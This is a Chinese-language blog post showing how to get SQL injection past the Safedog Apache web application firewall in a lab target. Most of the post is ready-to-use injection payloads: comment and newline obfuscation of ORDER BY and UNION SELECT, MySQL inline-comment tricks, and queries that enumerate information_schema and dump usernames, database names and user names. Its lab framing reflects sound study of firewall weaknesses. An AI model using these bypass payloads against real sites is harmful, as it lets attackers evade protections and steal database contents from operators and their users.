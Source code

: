 ```json
{
  "date": "2020-04-20 02:40:00",
  "tags": ['bypass', '安全狗', 'sql注入'],
  "description":"nothing"
}

nothing
<!--more-->
最近虽然比较忙,但是还是想写点技术方面的东西做个记录。

正好给公司攻防环境出了一道web的题加了狗，就试着绕一下分享出来吧.

# 环境预览

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411152727-e55c5b3a-7bc5-1.png)
用了最新版的安全狗apache版本4.0

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411153001-412b1776-7bc6-1.png)
漏洞环境

# 绕过and 1=1

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411153404-d20f09aa-7bc6-1.png)
and 1=1拦截



![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411153425-dead60da-7bc6-1.png)
and ord(0x1) == and True
![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411153511-fa1c4dc2-7bc6-1.png)
and ord(0x0) == and False

# 绕过 order by 

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411153559-16b1b170-7bc7-1.png)
正常order by 被咬

在 order 和by之间放点无效字符，然后再换个行

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411153729-4c5d9744-7bc7-1.png)

```sql
order /*|--|*/--+%20%0Aby 3%23 绕过
```

# 绕过 union select 

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411154251-0c305aca-7bc8-1.png)
union select 1,2,3  被咬


这里用内连注释+空语句+注释+换行

注：MySQL数据库为了保持与其他数据库兼容，特意新添加的功能。 为了避免从MySQL中导出的SQL语句不能被其他数据库使用，它把一些 MySQL特有的语句放在 /*! ... */ 中，这些语句在不兼容的数据库中使用时便 不会执行。而MySQL自身却能识别、执行。  /*50001 */表示数据库版本>=5.00.01时中间的语句才会执行。 

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411155107-33b812bc-7bc9-1.png)

```sql
 /*!union*/ /*!*/ --+1%0Aselect 1,2,3 %23 绕过
```

# 获取数据

不演示被咬的了...

到了这里就比较简单了

内连注释+空语句+注释+换行 可绕所有

### 查库

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411155459-be4761c6-7bc9-1.png)

```sql
/*!union*//*!*/--+1%0A%0ASELECT 1,2,concat(/*!schema_name*/) /*!from*/ information_schema.schemata--+*/%23
```

### 查表

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411155539-d60cffc8-7bc9-1.png)

```sql
/*!union*//*!*/--+1%0A%0ASELECT 1,2,concat(/*!table_name*/) /*!from*/ information_schema.tables where table_schema=0x747261696E--+*/%23
```

### 查字段

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411155624-f087b3f2-7bc9-1.png)

```sql
/*!union*//*!*/--+1%0A%0ASELECT 1,2,concat(/*!column_name*/) /*!from*/ information_schema.columns where table_name=0x7573657273--+*/%23
```

### 查数据

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411155258-75fef2da-7bc9-1.png)

```sql
/*!union*//*!*/--+1%0A%0ASELECT%201,2,concat(/*!username*/)%20/*!from*/%20users--+*/%23
```

### 系统函数

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411160010-7755eeda-7bca-1.png)
![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411160031-842ab618-7bca-1.png)

这里常规的方法还是被咬，但是用变量处理一下就直接过了。


```sql
/*!union*//*!*/--+1%0ASELECT 1,@s:=database/**/(),1%23

/*!union*//*!*/--+1%0ASELECT 1,@s:=user/**/(),1%23
```